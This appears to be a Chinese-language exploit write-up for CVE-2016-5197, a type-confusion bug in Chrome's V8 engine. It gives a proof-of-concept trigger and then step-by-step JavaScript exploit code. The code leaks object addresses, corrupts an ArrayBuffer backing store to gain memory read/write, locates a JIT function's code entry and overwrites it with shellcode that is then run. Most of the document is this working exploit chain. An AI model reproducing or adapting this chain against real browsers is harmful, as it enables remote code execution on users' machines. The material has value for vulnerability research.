






# CVE-2016-5197

## 参考
https://xz.aliyun.com/t/2889#toc-17
https://www.jianshu.com/p/0326d382f5f9
https://cansecwest.com/slides/2017/CSW2017_QidanHe-GengmingLiu_Pwning_Nexus_of_Every_Pixel.pdf


## 编译有问题的D8
https://bugs.chromium.org/p/chromium/issues/detail?id=659475

https://chromium.googlesource.com/v8/v8/+/2bd7464ec1efc9eb24a38f7400119a5f2257f6e6


## 漏洞分析
```
var n;
function Ctor() {
  n = new Set();
}
function Check() {
  n.xyz = 0x826852f4;
}
Ctor();
Ctor();
%OptimizeFunctionOnNextCall(Ctor);
Ctor();
Check();
Check();
%OptimizeFunctionOnNextCall(Check);
Check();

Ctor();
%DebugPrint(n);
Math.atan(1);
Check();
%DebugPrint(n);
Math.atan(1);
parseInt('AAAAAAAA');
```






## 漏洞利用

### Leak ArrayBuffer ab地址，function evil_fun地址
ab是后续存shellcode的，evil_fun是一个自定义函数，我们希望修改function的CodeEntry为shellcode地址，从而控制EIP

```
function evil_fun(a, b) {
    return a + b;
}

function Check(obj) {
   n.xyz = 3.4766863919152113e-308; // do not modify string map
   n.xyz1 = 0x0; // do not modify the value
   n.xyz2 = 0x7000; // enlarge length of builtIn string 'null'
   n.xyz3 = obj; // leak the Object 
   
}
Check(String(null));
Check(String(null));
%OptimizeFunctionOnNextCall(Check);
Check(String(null));

Ctor();
Check(ab);
ab_addr = read_value();
print("ArrayBuffer: " + ab_addr.toString(16));

Check(evil_fun);
var evil_fun_addr = read_value();
print("evil_fun: " + evil_fun_addr.toString(16));
```


### 将null string的地址写到其value处

```
Check(String(null));
null_string_addr = read_value();
print("null string: " + null_string_addr.toString(16));
```


### 修改null string hashcode处为ab length的地址
现在如果对xyz3赋值一个un-smi数, 它会把null_string_addr作为一个指针，实际操作的是null_string_addr指向的内存

这里需要重新触发漏洞，我理解是之前n.xyz3赋值都是直接赋值，现在需要间接赋值，两者生成的优化后JIT Code不一样
```
ab_len_addr = decode_from_float64(get_arraybuffer_length_addr(ab_addr));
function Check2(addr){
    m.xyz = 3.4766863919152113e-308;    
    m.xyz1 = 0x0; 
    m.xyz2 = 0x7000; 
    m.xyz3 = addr; 

}
Check2(ab_len_addr);
Check2(ab_len_addr);
%OptimizeFunctionOnNextCall(Check2);
Check2(ab_len_addr);

Ctor();
Check2(ab_len_addr);
```



### 修改ab的backing store地址为evil_func地址

经过上面一步，ab_len_addr位于null string hashcode处，对xy1赋值会把ab_len_addr当作一个指针，实际会写入[ab_len_addr+8],也就修改了ab的backing store地址

同理，这里也需要重新触发漏洞

```
var temp = decode_from_float64(evil_fun_addr - 1);
function Check3(addr){
    l.xyz = 3.4766863919152113e-308;  
    l.xyz1 = addr;             
}

Check3(temp);
Check3(temp);
%OptimizeFunctionOnNextCall(Check3);
Check3(temp);
```


到了这一步，操作ab就等于操作evil_func! 通过ab，我们能读到evil_func的CodeEntry(第7个指针)

```
function get_codeEntry() {
    if(platform == "x86") {
        f64 = new Uint32Array(ab);
        return decode_from_float64(f64[7]);
    }
    else {
        f64 = new Float64Array(ab);
        return f64[7];
    }
    
}
Ctor();
Check3(temp);
var shellcode_entry = get_codeEntry();
```

### 修改ab的backing store地址为shellcode_entry
```
Check3(shellcode_entry);
```


### 写入shellcode, call evil_func
通过上一步，操作ab就是修改evil_func的JIT Code; 我们将shellcode写入，再call evil_func

```
var shellcode = new Uint8Array(ab);
for (var i=0, strLen=shellcode_str.length; i<strLen; i++) {
    shellcode[i] = shellcode_str.charCodeAt(i);
}

print(evil_fun(1,2));
```





Bingo!
